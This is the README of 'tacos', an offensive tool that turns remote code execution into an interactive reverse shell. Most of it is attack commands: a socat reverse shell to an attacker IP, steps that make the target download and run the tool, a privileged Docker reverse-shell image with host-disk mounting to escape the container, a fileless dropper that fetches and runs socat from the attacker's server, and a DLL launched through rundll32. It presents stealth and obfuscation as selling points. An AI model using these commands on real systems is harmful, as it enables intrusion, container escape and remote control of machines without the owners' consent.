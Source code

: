# tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* transform RCE to interactive reverse shell with almost no prerequisite (only `curl`)
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate


## Usage

« I quicly want an interactive reverse shell», take a wrap! 🥙
```shell
# On attacker machine
tmux
wrap --lhost [ATTACKER_IP] #launch socat listener + output command to run on target

# On target
# paste command outputted by wrap: it will download tacos, and launch it to obtain the interactive revshell
```

<details>
<summary><h4>🎁 Bonus n°1: expose listener to the world wide web</h4></summary>
Useful if target can't directly reach the attacker machine, but has internet access
<br> On attacker machine, install <code>ngrok</code> or <code>bore</code> and launch your listener:
<pre><code>wrap -n
</code></pre>

<i><b>N.B:</b></i> ngrok is more stable than bore for now
</details>

### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about `tacos` container security:***
> From a networking point of view, this is the same level of isolation as if the processes were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

<details>
<summary><h4>🎁 Bonus n°2: <code>tacos</code> reverse shell image</h4></summary>
Useful if target is running docker, kubernetes, etc ...
<br> On attacker machine, launch your <code>tacos</code> listener as usual
<br> On target:
<pre><code>
docker run --privileged --rm -it ariary/tacos-reverse [TACOS_LISTENER_IP]:[TACOS_LISTENER_PORT]
</code></pre>
<blockquote>💡: <code>--privileged</code> mode is not mandatory. It is used to allow container escaping with:
<pre><code>
fdisk -l
mkdir /mnt/hostfs
mount /dev/sda1 /mnt/hostfs
</code></pre>
</blockquote>
<br>
<blockquote>💡: If you only have writing access to a manifest deploying containers. Use <code>ariary/tacos-reverse</code> image with appropriate arguments
</blockquote>
</details>


## Install
### tacos
#### Docker
```shell
docker pull ariary/tacos
```

#### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

#### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

### wrap
need `nim`:

```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make build.wrap 
```

## Alternatives

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
static-get socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:[SOCAT_LISTENING_PORT],verify=0
```

### Use dll instead of `.exe`
```shell
# On attacker machine:
# modify ./cmd/tacosdll/tacosdll.go with the according IP:PORT
$ GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o tacos.dll ./cmd/tacosdll/tacosdll.go

# On remote:
> rundll32.exe ./tacos.dll,Tacos
```
